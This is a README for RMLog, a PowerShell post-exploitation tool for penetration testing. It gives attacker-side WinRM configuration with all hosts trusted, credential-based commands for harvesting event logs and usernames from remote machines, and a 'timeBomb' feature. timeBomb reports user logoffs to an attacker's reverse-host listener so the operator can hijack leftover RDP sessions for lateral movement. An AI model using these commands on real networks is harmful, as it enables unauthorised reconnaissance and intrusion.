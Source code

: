 # RMLog
RMLog is a post exploitation powershell script which it uses windows event logs to gather information about internal network in a pentration testing engagment. It is not only useful for blue teams but also for red teams because some of its functionalities can be used for lateral movement. You will be able to use RMLog not only on a localhost machine but also in a remote machine using WinRM protocol which is by default enabled in a newly Windows versions. 


## Usage

Use can use the following event types:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4625) - An account failed to log on
3) Information EventID (4728) - A member was added to a security-enabled global group 
4) Information EventID (4732) - A member was added to a security-enabled local group
5) Information EventID (4733) - A member was removed from a security-enabled local group
6) Information EventID (4738) - A user account was changed
7) Information EventID (4647) - User initiated logoff
8) Information EventID (4688) - A new process has been created
9) Information EventID (4776) - The domain controller attempted to validate the credentials for an account

## Configuration

In some cases may be you need to configure WinRM protocol to be functional

On client side (attacker):

	winrm quickconfig
	winrm set winrm/config/client '@{TrustedHosts="*"}'
		
On the server side (victim):
		
	Enable-PSRemoting -Force
	winrm quickconfig

### Examples

The RMLog searching into newest 10(default value) entries into all event types.

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip>
PS> RMLog -user <username> -pass <password> -fips <file with ips>
PS> RMLog -ip 127.0.0.1
```

Search into specific eventID using -eventID parameter
```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -eventID <eventID>
PS> RMLog -user <username> -pass <password> -fips <file with ips> -eventID <eventID>
PS> RMLog -ip 127.0.0.1 -eventID <eventID> 
```

If you use -newest parameter then you will be able to search into a specific quantity of entries and in many cases your results will be more accurate.

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -newest <number>
PS> RMLog -user <username> -pass <password> -fips <file with ips> -newest <number>
PS> RMLog -ip 127.0.0.1 -newest <number>
```

Providing the -users flag you will get as a result some valid usernames. The RMLog searches into these event IDs 4624,4625,4776 

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -users
PS> RMLog -user <username> -pass <password> -fips <file with ips> -users
PS> RMLog -ip 127.0.0.1 -users
```

In earlier windows versions for example Windows server 2008, you can not have more than 5 winrm connections with the same host

## Time Bomb 

TimeBomb is useful when you landed on a network host and you want to get a notification when the user is logged of and be able to use an RDP (Remote Desktop) connection. If the user has a remote desktop with another network host and after logging out left the remote desktop open then you could move into the network from an existing forgotten RDP connection. In the background function uses 4624,4647 events and search for current login users. You can create a timer without creating or editing windows schedules and leave the host untouched. You have 3 option when you create a timeBob:

1) now
2) once
3) trigger

Tip1: Give as much as possible amount of entries in -newest parameter. For example: 5000

Tip2: If you want to get notifications only from users who have open RDP connection(s) before logged out then you should uncomment the line 785

The task is going to run now.
```
PS> timeBomb -task now -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

The task is going to run once at specific time.
```
PS> timeBomb -task once -at 15:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

The task is going to run and stop at specific time.
```
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

## Authors

* TasoX (@taso_x)



